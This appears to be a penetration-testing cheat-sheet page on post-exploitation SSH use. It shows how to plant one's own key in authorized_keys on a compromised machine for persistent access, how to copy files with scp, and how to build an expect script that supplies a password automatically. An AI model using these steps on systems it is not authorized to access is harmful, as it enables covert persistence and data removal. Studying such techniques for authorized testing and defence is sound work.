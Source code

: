 # SSH

## SSH - SCP

### Generate Key Pair&#x20;

if you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user directory you can find the hidden .ssh files by typing ls -la. Then you need to do two things:

#### Create a new keypair, You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

This will create two files, one called nameOfMyKey and another called nameOfMyKey\_pub. The one with the \_pub is of course your public key. And the other key is your private.

#### Add your public key to authorized\_keys.

Now you copy the content of nameOfMyKey\_pub. On the compromised machine you go to \~/.ssh and then run add the public key to the file authorized\_keys. Like this

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

#### Log in.

```
ssh -i nameOfMyKey kim@192.168.1.103
```

## SCP File Transfer

#### Copy a file:

```
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
```

#### Copy a directory:

```
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

## non-interactive SCP

The only reason that a one-liner doesn’t work is because SCP prompts the user for a password, and simply echoing the password and piping it to the command won’t work. The list of commands to build the file looks like this:

```
echo '#!/usr/bin/expect' > scp.exp
echo 'spawn scp username@ip-addr:/path-to-file out-file' >> scp.exp
echo 'set pass "password"' >> scp.exp
echo 'expect {' >> scp.exp
echo 'password: {send "$pass\r"; exp_continue}' >> scp.exp
echo '}' >> scp.exp

```

To run this file

```
expect scp.exp
```

{% hint style="info" %}
&#x20;you MUST use single quotes to surround the lines, as using double quotes will overlap with the double quotes that are included within the line, and will cause an issue with the first line
{% endhint %}



































